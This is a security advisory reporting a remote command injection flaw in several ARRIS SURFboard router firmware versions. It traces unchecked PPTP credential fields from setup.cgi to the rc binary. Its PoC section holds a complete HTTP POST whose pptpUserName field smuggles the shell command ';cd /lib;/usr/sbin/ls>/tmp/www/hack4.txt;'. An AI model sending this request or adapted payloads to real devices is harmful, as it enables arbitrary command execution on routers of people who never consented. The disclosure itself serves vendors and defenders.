 # ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `pptp` function, `pptpUserName、pptpPassword` is directly passed by the attacker, so we can control the `pptpUserName、pptpPassword` to attack the OS.

As you can see here, the input has not been checked.And then,call the function `scnvram_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc` binary:

As you can see here, in `sub_36330` function, the initial input has not checked and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> Complete vulnerability verification on SBR-AC1900P product



## PoC

We set `pptpUserName` as **%27%3Bcd+%2Flib%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack4.txt%3B%27** , The meaning of this command is **';cd /lib;/usr/sbin/ls>/tmp/www/hack4.txt;'**，and the router will excute it,such as:

```http
POST /setup.cgi?id=07afc3a1 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1563
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/RgSetup.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

wan_connection_type=6&getdnsautomatially_from_ISP=1&StaticWanIpAddressIP0=&StaticWanIpAddressIP1=&StaticWanIpAddressIP2=&StaticWanIpAddressIP3=&StaticWanIpMaskIP0=&StaticWanIpMaskIP1=&StaticWanIpMaskIP2=&StaticWanIpMaskIP3=&GatewayIpAddressIP0=&GatewayIpAddressIP1=&GatewayIpAddressIP2=&GatewayIpAddressIP3=&pppoeUserName=&pppoePassword=&pppoe_Service=&pppMtuSize=1492&pptpWanIpAddressIP0=192&pptpWanIpAddressIP1=168&pptpWanIpAddressIP2=0&pptpWanIpAddressIP3=10&pptpWanIpMaskIP0=255&pptpWanIpMaskIP1=255&pptpWanIpMaskIP2=255&pptpWanIpMaskIP3=0&pptpGatewayIpAddressIP0=192&pptpGatewayIpAddressIP1=168&pptpGatewayIpAddressIP2=0&pptpGatewayIpAddressIP3=1&l2tpWanIpAddressIP0=&l2tpWanIpAddressIP1=&l2tpWanIpAddressIP2=&l2tpWanIpAddressIP3=&l2tpWanIpMaskIP0=&l2tpWanIpMaskIP1=&l2tpWanIpMaskIP2=&l2tpWanIpMaskIP3=&l2tpGatewayIpAddressIP0=&l2tpGatewayIpAddressIP1=&l2tpGatewayIpAddressIP2=&l2tpGatewayIpAddressIP3=&PrimaryDnsIpAddressIP0=114&PrimaryDnsIpAddressIP1=114&PrimaryDnsIpAddressIP2=114&PrimaryDnsIpAddressIP3=114&SecondaryDnsIpAddressIP0=8&SecondaryDnsIpAddressIP1=8&SecondaryDnsIpAddressIP2=8&SecondaryDnsIpAddressIP3=8&pptpUserName=%27%3Bcd+%2Flib%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack4.txt%3B%27&pptpPassword=abc123&pptp_Server=192.168.0.1&pptpMtuSize=1436&l2tpUserName=&l2tpPassword=&L2tpServer=&l2tpMtuSize=1452&MtuSize=1500&SpoofedMacAddressMA0=BC&SpoofedMacAddressMA1=64&SpoofedMacAddressMA2=4B&SpoofedMacAddressMA3=A7&SpoofedMacAddressMA4=DF&SpoofedMacAddressMA5=51&ApplyRgSetupAction=1&WanLeaseAction=0&this_file=RgSetup.htm&next_file=RgSetup.htm
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>
